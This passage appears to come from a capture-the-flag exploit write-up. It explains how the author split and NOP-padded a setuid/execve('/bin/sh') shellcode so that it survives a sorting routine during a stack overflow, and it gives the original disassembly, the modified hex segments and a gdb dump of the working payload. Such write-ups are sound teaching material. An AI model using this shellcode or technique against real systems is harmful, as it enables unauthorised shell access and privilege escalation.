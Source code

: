 The last thing we need to worry about is our shellcode, since we will need to know where it is on the stack to execute it, and we also need to make sure it stays intact and in the correct order after it is sorted. The way I accomplished this is by appending the `0x90` byte a certain amount of times tot he front of ceratin parts of shellcode. This is because when executed `0x90` is the opcode for `NOP` which continues execution and doesn't effect our shellcode in any important way, and it will be evaluated as less than values starting with `0x804` so it won't affect the stack canary or what we did to write over the return address.

However when we insert the NOPs into our shellcode, we will have to rewite/recompile the shellcode. The reason for this, is because if we just insert NOPs into random places, there is a good chance we will insert a NOP in the middle of an instruction, which will change what the instruction does. Also note, the base shellcode I did not write. I grabbed it from `http://shell-storm.org/shellcode/files/shellcode-599.php` and modified it. Also I found that this website which is an online x86/x64 decompiler/compiler helped `https://defuse.ca/online-x86-assembler.htm`:

here is the shellcode before we modified it:
```
0:  6a 17                   push   0x17
2:  58                      pop    eax
3:  31 db                   xor    ebx,ebx
5:  cd 80                   int    0x80
7:  50                      push   eax
8:  68 2f 2f 73 68          push   0x68732f2f
d:  68 2f 62 69 6e          push   0x6e69622f
12: 89 e3                   mov    ebx,esp
14: 99                      cdq
15: 31 c9                   xor    ecx,ecx
17: b0 0b                   mov    al,0xb
19: cd 80                   int    0x80 
```

This shellcode is `27` bytes. After we figure out how to split the individual commands up with `\x90`s in a way that the instructions will still execute properly, and after the sorting the shellcode will be in the proper order, we get the following segments:

```
0x9101eb51e1f7c931:

0x90909068732f2f68:

0x9090406e69622f68:

0x900080cd0bb0e389:
```

keep in mind, because of how the data is stored, the last four bytes will be executed first. After a lot of trial and error, we see that this is our shellcode:

```
gdb-peda$ x/16i 0xffff7ca0
   0xffff7ca0: xor    ecx,ecx
   0xffff7ca2: mul    ecx
   0xffff7ca4: push   ecx
   0xffff7ca5: jmp    0xffff7ca8
   0xffff7ca7: xchg   ecx,eax
   0xffff7ca8: push   0x68732f2f
   0xffff7cad: nop
   0xffff7cae: nop
   0xffff7caf: nop
   0xffff7cb0: push   0x6e69622f
   0xffff7cb5: inc    eax
   0xffff7cb6: nop
   0xffff7cb7: nop
   0xffff7cb8: mov    ebx,esp
   0xffff7cba: mov    al,0xb
   0xffff7cbc: int    0x80
```

